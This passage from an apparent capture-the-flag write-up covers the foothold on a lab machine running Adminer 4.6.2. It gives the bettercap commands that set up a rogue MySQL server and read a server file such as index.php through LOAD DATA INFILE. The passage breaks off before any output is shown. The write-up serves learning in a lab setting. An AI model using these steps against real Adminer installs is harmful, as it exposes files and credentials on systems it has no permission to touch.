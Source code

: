# **FootHold**

Now we see that it's `Adminer 4.6.2`. On searching a bit for vulnerabilities i found [this](https://www.acunetix.com/vulnerabilities/web/adminer-4-6-2-file-disclosure-vulnerability/).

This version of Adminer is vulnerable to file disclosure which can be exploited by following steps.

1. Set up a rouge sql server in your local machine
2. Make Adminer connect to your rouge sql server
3. On connection send `LOAD DATA INFILE` SQL command
4. Boom you got content of the file.

So let's start with setting up the rouge sql server. You can do it from scratch if you want but for now i'm gonna use [`bettercap`](https://github.com/bettercap/bettercap) which does most of the work for us. So download the bettercap and let's exploit it.

We are going to use `mysql.server` module present in bettercap. Uou can learn more about it by typing `help mysql.server` in bettercap. Type the following command in bettercap to set up a rouge server.

1. `set mysql.server.address <your tun0 IP address>` (setting the address to serve rougue sql server)
2. `set mysql.server.infile ../index.php` (setting the file to read)
3. `mysql.server on` (starting the sql server)

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Admirer/rouge_set.png)

Now go to `adminer.php` and try connecting to our sql server.

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Admirer/connecting%20to%20sql%20server.png)

and press login.

On successful exploitation you will see something like this in your bettercap terminal. 
